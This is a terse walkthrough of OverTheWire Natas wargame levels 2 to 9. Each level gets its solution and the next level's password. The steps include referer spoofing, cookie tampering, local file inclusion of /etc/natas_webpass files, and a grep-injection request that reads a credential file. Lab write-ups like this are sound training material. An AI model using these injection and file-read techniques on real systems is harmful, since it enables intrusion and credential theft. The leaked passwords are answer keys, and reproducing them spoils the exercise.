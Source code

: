 ### lvl 2-3

```html
robots.txt
[http://natas3.natas.labs.overthewire.org/s3cr3t/](http://natas3.natas.labs.overthewire.org/s3cr3t/)
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

### lvl 3-4

```html
Address was changed in referer in burp:
Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
```

### lvl 4-5

```html
there was a logged in cookie and it was set to 0 and i set it to 1
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```

### lvl 5-6

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
//Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

### lvl 6-7

```html
[http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8](http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8)
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

### lvl 7-8

```html
php> echo base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")))
oubWYf2kBq
Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
```

### lvl 8-9

```html
GET /?needle=[a-zA-z0-9]+/etc/natas_webpass/natas10%3b&submit=Search HTTP/1.1
Output:
<pre>
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
</pre>
```
